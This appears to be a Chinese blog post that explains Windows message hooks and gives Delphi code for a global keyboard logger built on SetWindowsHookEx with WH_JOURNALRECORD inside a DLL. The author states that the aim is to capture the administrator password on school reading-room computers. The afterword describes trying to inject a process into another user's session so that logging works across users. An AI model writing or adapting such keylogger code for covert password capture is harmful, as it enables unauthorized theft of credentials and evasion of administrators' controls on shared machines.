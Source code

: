 ```yaml
---
layout: post
published: true
title: 一个键盘钩子的写法，很实用
categories: 编程
tags: [Delphi, win32]
---
```


## 0x00 前言

早就想写一个键盘监听器了，学校的电子阅览室设了Administrator屏障，想装软件什么的很麻烦，因此想截获管理员密码。。    

花了大概一个星期编写了一个，效果还不错，因此来分享一下。。
 
## 0x01 基本概念
 
 首先解释一下什么是键盘钩子：
 
 > 钩子（Hook）是Windows消息处理机制中的一个监视点，应用程序可以在这里安装一个子程序（钩子函数）以监视指定窗口某种类型的消息，所监视的窗口可以是其他进程创建的。当消息到达后，在目标窗口处理函数处理之前，钩子机制允许应用程序截获它进行处理。     
 
SetWindowsHookEx函数可以把应用程序定义的钩子函数安装到系统中：

```pascal
HHOOK SetWindowsHookEx(
    Int idHook ;       // 指定钩子的类型
    HOOKPROC lpfn;   //钩子函数的地址。如果使用的是远程钩子，钩子函数必须放在一个DLL中。
    HINSTANCE hMod; //钩子函数所在DLL的实例句柄。如果是一个局部的钩子，该参数为NULL。
    DWORD    dwThreadID; //指定要为哪个线程安装钩子。若该值为0被解释成系统范围内的。
)
```

IdHook参数指定了要安装的钩子的类型，可以是下列取值之一：

 * WH_CALLWNDPROC      当目标线程调用SendMessage函数发送消息时，钩子函数被调用。
 * WH_CALLWNDPROCRET                  当SendMessage发送的消息返回时，钩子函数被调用。
 * WH_GETMESSAGE          当目标线程调用GetMessage或者PeekMessage时。
 * WH_KEYBOARD              当从消息队列中查询WM_KEYUP或WM_KEYDOWN消息时
 * WH_MOUSE                      当调用从消息队列中查询鼠标事件消息
 * WH_MSGFILTER              当对话框，菜单或滚动条要处理一个消息时，钩子函数被调用。该钩子是局部的，它是为哪些有自己消息处理过程的控件对象设计的。
 * WH_SYSMSGFILTER       和WH_MSGFILTER一样，只不过是系统范围的。
 * WH_JOURNALRECORD 当Windows从硬件队列中获取消息时。
 * WH_JOURNALPLAYBACK      当一个事件从系统的硬件输入队列中别请求时
 * WH_SHELL                        当关于Windows外壳事件发生时，比如任务条需要重画它的按钮
 * WH_CBT                            当基于计算机的训练（CBT）事件发生时。
 * WH_FOREGROUNDIDLE Windows自己使用，一般应用程序很少使用。
 * WH_DEBUG                      用来给钩子函数除错。

 
Lpfn参数是钩子函数的地址。钩子安装后如果有消息发生，Windows将调用此参数所指向的函数。

如果dwThreadId参数是0，或者指定一个由其他进程创建的线程ID，lpfn参数指向的钩子函数必须位于一个DLL中。这是因为进程的地址空间是相互隔离的，发生事件的进程不能调用其他进程地址空间的钩子函数。如果钩子函数的实现代码在DLL中，在相关事件发生时，系统会把这个DLL插入到发生事件的进程的地址空间，使它能够调用钩子函数。这种需要将钩子函数写入DLL以便挂钩其他进程事件的钩子称为**远程钩子**。

如果dwThreadId参数指定一个由自身进程创建的线程ID，lpfn参数指向的钩子函数只要在当前进程中即可，不必非要写入DLL。这种挂钩属于自身进程事件的钩子称为局部钩子。
 
hMod参数是钩子函数所在DLL的实例句柄，如果钩子函数不再DLL中，应将hMod设置为NULL。
 
dwThreadId参数指定要与钩子函数相关联的线程ID号。如果设为0，那么钩子就是系统范围内的，即钩子函数将关联到系统内所有线程。
 
要卸载钩子，可以调用UnhookWindowsHookEx函数。
 BOOL UnhookWindowsHookEx(HHOOK hhk); // hhk 为要卸载的钩子的句柄
 
注意：安装钩子的代码可以在DLL模块中，也可以在主模块中，但是一般在DLL里实现它，主要是为了使程序更加模块化。
 
既然我们要截获的是全局的按键消息，那么就应该将钩子放在DLL中。

Windows钩子都有一个回调函数：

```c
LRESULT CALLBACK HookProc(int nCode, WPARAM wParam, LPARAM lParam)
{
         // 处理该消息的代码 …..
 
    Return ::CallNextHookEx(hHook,nCode,wParam,lParam);
}
```

HookProc是应用程序的名称。nCode参数是Hook代码，钩子函数使用这个参数来确定任务，它的值依赖于Hook的类型。wParam和lParam参数的值依赖于Hook代码，但是它们典型的值是一些关于发送或者接收消息的信息。

因为系统中可能会有多个钩子的存在，所以要调用那个CallNextHookEx函数把消息传到链中下一个钩子函数。hHook参数是安装钩子时得到的钩子句柄（SetWindowsHookEx的返回值）。
 
## 0x02 实现

有了这些知识，我们就可以开始编写：
 
首先，先创建一个DLL Wizard，为了在主程序中创建钩子，我们需要键入以下代码：

```pascal
procedure InstallHook(hwnd:THandle);stdcall;export;
begin
    hook:=SetWindowsHookEx(WH_JOURNALRECORD,HookProc,hInstance,0);//其中hook是一个HHOOK类型的全局变量，用来保存钩子句柄
    hWindow:=hwnd;//hWindow也是一个HWND类型的全局变量，用来保存主程序的窗口句柄，在后面要用到
end;
```
 
由于DLL与主程序是独立的，所以DLL截获的消息需要发送到主窗口，这里采用的是发送消息，因此要保留主窗体句柄
 
下面是卸载钩子代码：

```pascal
procedure UnInstallHook;stdcall;export;
begin
  UnhookWindowshookEx(hook);
end;
```
 
还有回调函数：

```pascal
function HookProc(iCode:longint;
         wParam:WPARAM;lParam:LPARAM):LRESULT;stdcall;
var
  msg:TEventMsg;
  keyState:TKeyState;
begin
  if iCode=HC_ACTION then
  begin
    msg:=PEventMsg(lParam)^;
    if (msg.message=WM_KEYDOWN) or (msg.message=WM_SYSKEYDOWN) then
    begin
      keystate.vKey:=LoByte(msg.paramL);//得到键的虚拟键码
      keystate.bCapsLock:=GetKeyState(VK_CAPITAL)=1;//得到CapsLock键状态
      keyState.bNumLock:=GetKeyState(VK_NUMLOCK)<>1;//得到Num Lock的状态
      keyState.bCtrl:=GetKeyState(VK_CONTROL) and $80000000=$80000000;//得到Ctrl键的状态
      keyState.bAlt:=GetKeyState(VK_MENU) and $80000000=$80000000;//得到Alt键的状态
      keyState.bShift:=GetKeyState(VK_SHIFT) and $80000000=$80000000;//得到Shift键的状态
      keystate.Sender:=GetActiveWindow;//得到当前活动的窗口句柄
      keystate.Time:=Now;//得到当前时间
      SendMessage(hWindow,WM_MYMSG,Integer(@KeyState),0);//发给主窗口，WM_MYMSG为一个自定义消息，用于区别于其他消息
    end;
    result:=0;
  end;
  if iCode<0 then
  begin
    Result:=CallNextHookEx(hook,iCode,wParam,lParam);//挂上下一个钩子
  end;
end;
```
 
其中TKeyState定义为：

```pascal
type
  TKeyState=record
               vKey:longint;
               bCapsLock,bNumLock,bShift,bCtrl,bAlt:bool;
               Sender:HWND;
               Time:TDateTime;
             end;
```

用于记录按键消息。

最后将他们输出：

```pascal
exports
  InstallHook,UnInstallHook,HookProc;
```

在主窗体Main.pas中写入：

```pascal
procedure InstallHook(hwnd:THandle);stdcall;external 'Hookdll';
procedure UnInstallHook;stdcall;external 'hookdll';//静态链接函数
```
 
然后调用时用`InstallHook(self.Handle);`就可以安装钩子了。
 
至此一个键盘监听器就写好了（详细参考CSDN资源：4428899）
 
## 0x03 后记 
 
但是，这个程序还有一点缺陷，就是不能跨用户监听，即如果一台电脑中有多个用户，则用户A的监听器监听不到用户B的按键消息。

我研究过，用户的实质是多个Desktop（即窗口工作站）同时运行（这也是虚拟桌面的工作原理）。我曾试图用CreateProcess()这个API将一个进程跨用户注入到另一个用户的空间中，虽说成功了，但一旦用户切换用户，所有的钩子都将停止，这也令我很苦恼，如果有兴趣的也可以研究一下。